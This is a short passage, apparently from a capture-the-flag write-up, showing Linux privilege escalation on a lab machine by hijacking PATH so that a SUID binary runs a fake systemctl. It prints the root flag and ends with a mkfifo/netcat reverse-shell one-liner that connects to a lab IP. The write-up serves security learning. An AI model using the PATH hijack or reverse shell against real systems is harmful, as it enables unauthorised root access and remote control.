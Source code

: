 > I see that this script is using **systemctl** _daemon-reload && systemctl start zabbix-agent_
>
> **PrivEsc using PATH Environment Variable**
>
> I can make a change to the `PATH` envronment variable to create my own version of `systemctl`: `vim /tmp/systemctl` With the contents: `/bin/sh -c 'cat /root/root.txt` The fake `systemctl` will need to be executable and the location, `/tmp` added as the first entry to the `PATH` environment variable.
>
> ```text
> chmod +x /tmp/systemctl
> export PATH=/tmp:$PATH
> ```
>
> Now it's time to run the SUID executable, `zabbix-service` that will use our fake `systemctl` which will `cat /root/root.txt`. Of course we could have added another backdoor to get a `root` shell.
>
> ```bash
> zapper@zipper:/tmp$ ../home/zapper/utils/zabbix-service
> start or stop?: start
> a7c743d35b8efbedfd9336492a8eab6e
> ```
>
> Milestone: root.txt flag: a7c743d35b8efbedfd9336492a8eab6e For complete `root` access I just overwrote the fake `systemctl` with a simple bash script
>
> ```bash
> /bin/sh -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 9000 >/tmp/f'
> ```

